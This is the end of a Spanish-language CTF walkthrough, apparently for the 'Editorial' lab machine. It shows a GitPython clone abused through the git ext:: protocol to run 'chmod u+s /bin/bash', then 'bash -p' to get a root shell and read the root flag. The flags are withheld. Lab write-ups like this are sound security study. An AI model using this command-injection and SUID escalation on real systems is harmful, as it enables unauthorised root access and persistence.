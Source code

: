 ~~~bash
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% u+s% /bin/bash new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.

~~~
Ahora revisando los permisos, si efectivamente tiene permisos SUID.
~~~bash
prod@editorial:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con los permisos SUID en la /bin/bash, ya se puede leer la root flag y realizar todo lo que se quisiera para lograr persistencia.
~~~bash
prod@editorial:/tmp$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido
